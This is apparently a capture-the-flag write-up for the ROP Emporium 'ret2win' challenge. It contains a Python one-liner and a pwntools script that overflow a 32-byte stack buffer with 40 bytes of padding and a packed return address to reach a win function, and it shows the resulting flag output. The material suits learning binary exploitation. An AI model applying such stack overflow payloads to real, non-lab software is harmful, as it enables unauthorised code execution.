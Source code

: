 #### Python3 One-Line Exploit
`python3 -c 'import sys;sys.stdout.buffer.write(b"A"*40 + b"\x58\x07\x40\x00\x00\x00\x00\x00")'`
```
$ python3 -c 'import sys;sys.stdout.buffer.write(b"A"*40 + b"\x58\x07\x40\x00\x00\x00\x00\x00")' | ./ret2win

ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```

#### The Pwntools Exploit
```
#!/usr/bin/env python3

from pwn import *

# Set the binary context to the local binary
context.binary = binary = ELF("./ret2win", checksec=False)
context.log_level = "CRITICAL"

# Get the LIBC used for the binary
libc = binary.libc

gdb_script = """
continue
"""

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(args.HOST or exit("[!] Provide a Remote IP."), int(args.PORT or exit("[!] Provide a Remote Port.")))

    elif args.GDB:
        return gdb.debug([binary.path] + argv, gdbscript=gdb_script, *a, **kw)

    else:
        return process([binary.path] + argv, *a, **kw)

# Exploitation code
# Define the offset of 40
offset = 40
# Build the 40 byte buffer
buffer = b"A"*offset

# Pack the address of the ret2win() function into a Little-Endian 64-bit address (+ 0x2)
win = p64(0x0000000000400756 + 0x2)

# Build the payload, the buffer + the packed address of ret2win()
payload = buffer + win

# Start connection (LOCAL, REMOTE, or GDB)
p = start()

# Send the payload after the ">" prompt
p.sendlineafter(b"> ", payload)
# Receive all of the output from the binary and print it
```
